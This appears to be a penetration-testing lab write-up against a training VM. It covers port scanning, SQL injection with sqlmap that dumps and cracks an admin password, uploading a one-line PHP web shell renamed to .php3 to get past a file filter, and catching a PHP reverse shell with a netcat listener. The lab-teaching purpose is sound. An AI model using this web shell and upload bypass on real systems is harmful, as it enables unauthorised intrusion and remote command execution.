# Report Labs / Flavio POGGIOLI

## Table of contents

  - [Report Labs / Flavio POGGIOLI](#report-labs--flavio-poggioli)
  - [Table of contents](#table-of-contents)

## VM n°80

Targets : Reconnaissance, SQLi, exploit

### 1. Find IP address of the machine

```bash
$ sudo netdiscover -r 10.0.2.0/24
```
Our target is 10.0.2.7.

  

### 2. List all open ports

We need to determine the open ports and the services running on them using nmap with some options (uniquly ports and secondly enabling default scripts, identifying service versions, and disregarding ping host discovery.).

```bash
$ sudo nmap -p- 10.0.2.7
$ sudo nmap -sC -sV -Pn 10.0.2.7
```

  

  

Now we can see that theses ports are open (all TCP) :
- port 22 — OpenSSH 5.5p1 Debian 6+squeeze2 (protocol 2.0)
- port 80 - Apache httpd 2.2.16 ((Debian))

### 3. Find vulnerabilities

#### 3.1. Port 80 - HTTP

We can try to find vulnerabilities on the web server with dirb.

```bash
$ dirb http://10.0.2.7
```

  

After opened the main page of the web server, we can see a secret blog, with some pages, pictures and tabs.

  

Admin page is protected by a password.

  


### 4. Exploit with sqlmap

Now that we have found a web server, we can try to exploit it with sqlmap (-u to state the vulnerable URL and --dbs to enumerate the database).

```bash
$ sqlmap -u http://10.0.2.7/ --dbs
```

  

I have failed to do the sqlmap because sqlmap need parameter(s) for testing in the provided data.
So, we need to choose one page with a parameter to test in the URL, so we can try to exploit cat.php and some id parameter.

```bash
$ sqlmap -u http://10.0.2.7/cat.php?id= --dbs
```
  

We can see that 2 databases are hosted, `information_schema` and `photoblog`.

Now, we can specify the database to enumerate tables.

```bash
sqlmap -u http://10.0.2.7/cat.php?id= --tables -D photoblog
```

  


We can see that 3 tables are in database `photoblog` --> `users`, `categories` and `pictures`.

Now, we can specify the database and the table to enumerate and dump columns.

```bash
sqlmap -u http://10.0.2.7/cat.php?id= --columns -D photoblog -T users
```
 

We can see that 3 columns are in table `users` --> `id`, `login` and `password`.

To dump the password, we can proceed with the same command and add `--dump` option.

```bash
sqlmap -u http://10.0.2.7/cat.php?id= --dump -D photoblog -T users
```
  

The program ask us if i want to crack the hash of the passwords founds, and after that, the password are cracked.

`admin:P4ssw0rd` (hash:8efe310f9ab3efeae8d410a8e0166eb2)

Now, we can try to connect to the admin page with the credentials found.

A new page is displayed, with a new tab, `Upload`.

  

We can try to upload a file to get a reverse shell, but the file is rejected because the file is not an image.

I tried to put that in a file and upload it with the name `script.php3`.
```php
<?php
  system($_GET['cmd']);
?>
```
Now we can go to `10.0.2.7/admin/uploads` which is a directory listable, and we can see our file.
I click on it and i put a parameter `?cmd=whoami` and i wan see that our user is www-data.

  

## Another method

With this script
[Github source of php reverse shell script](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)
we can upload like the old script (rename it with .Php or php3 extension), upload it and execute it with the same method.

Just insure that the IP address and the port are correct in the port (the kali machine and a random port 8080 for me)


  


We can listen with `nc -v -n -l -p 8080`

With that, we can access to a reverse shell with the user www-data.